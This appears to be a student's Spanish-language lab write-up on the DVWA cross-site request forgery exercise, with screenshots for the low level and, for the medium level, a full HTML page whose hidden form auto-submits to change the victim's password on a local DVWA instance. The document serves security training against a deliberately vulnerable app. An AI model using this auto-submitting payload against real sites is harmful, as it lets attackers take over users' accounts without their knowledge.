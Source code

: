 # 🛡️ CSRF

## LOW
## 📋 Explicación
Lo único que tenemos que hacer en este es añadri la nueva password y cambiarla.

## 📸 Captura de pantalla
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/csrf1.png)
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/csrf2.png)
---

## MEDIUM
## 📋 Explicación
En este caso, tenemos que crear un archivo llamado csrf.php con el código de abajo y subir el archivo a DVWA.

## 🖥️ Explicación
```bash
<html>
  <body>
    <form action="http://127.0.0.1/DVWA/vulnerabilities/csrf/" method="POST">
      <input type="hidden" name="password_new" value="pass" />
      <input type="hidden" name="password_conf" value="pass" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## 📸 Captura de pantalla
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/csrf4.png)
